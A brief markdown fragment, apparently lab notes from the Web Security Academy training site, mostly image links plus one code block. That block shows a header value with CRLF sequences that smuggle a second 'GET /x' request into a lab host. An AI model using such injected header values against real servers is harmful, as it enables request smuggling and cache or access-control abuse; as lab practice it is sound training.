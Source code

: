  ![](assets/2022-08-04-20-07-26.png)

### image 2

```html

Name : foo 
Value: anything\r\n
\r\n
GET /x HTTP/1.1\r\n
Host: 0a23001e04701c83c0e90486006b00af.web-security-academy.net
```
![](assets/2022-08-04-20-12-16.png)

![](assets/2022-08-04-20-15-52.png)
